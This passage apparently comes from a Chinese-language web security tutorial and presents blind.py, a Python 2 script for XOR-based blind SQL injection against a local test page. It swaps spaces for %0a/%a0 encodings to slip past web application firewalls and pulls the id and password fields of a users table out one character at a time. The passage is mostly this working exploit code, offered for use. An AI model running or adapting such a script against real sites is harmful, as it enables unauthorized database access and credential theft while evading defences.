 展示所有的攻击过程将会浪费我大量的时间，所以到此为止。手工盲注是很困难的，所以使用工具会更有效。下面是一个 python 写的工具，这是一个使用异或运算的例子。为了绕过大多数的 web 防火墙，我将空格换成了%0a。

```
### blind.py ###

import urllib
import sys
import os

def put_data(true_url, true_result, field, index, length):
    for i in range(1, length+1):
        for j in range(32, 127):
            attack_url = true_url + "^(%%a0locate%%a0%%a0(0x%x,(%%a0select%%a0%s%%a0%%a0from%%a0%%a0users%%a0where%%a0num=%d),%d)=%d)" % (j,field,index,i,i)
            attack_open = urllib.urlopen(attack_url)
            attack_result = attack_open.read()
            attack_open.close()

            if attack_result==true_result:
                ch = "%c" % j
                sys.stdout.write(ch)
                break
    print "\t\t",

def get_length(false_url, false_result, field, index):
    i=0
    while 1:
        data_length_url = false_url + "^(%%a0(select%%a0octet_length%%a0%%a0(%s)%%a0from%%a0users%%a0where%%a0num%%a0=%%a0%d)%%a0=%%a0%d)" % (field,index,i)
        data_length_open = urllib.urlopen(data_length_url)
        data_length_result = data_length_open.read()
        data_length_open.close()
        if data_length_result==false_result:
            return i
        i+=1

url = "http://127.0.0.1/info.php"

true_url = url + "?num=1"
true_open = urllib.urlopen(true_url)
true_result = true_open.read()
true_open.close()

false_url = url + "?num=0"
false_open = urllib.urlopen(false_url)
false_result = false_open.read()
false_open.close()

print "num\t\tid\t\tpassword"
fields = "num", "id", "password"

for i in range(1, 4):
    for j in range(0, 3):
        length = get_length(false_url, false_result, fields[j], i)
        length = put_data(false_url, true_result, fields[j], i, length)
    print ""

```
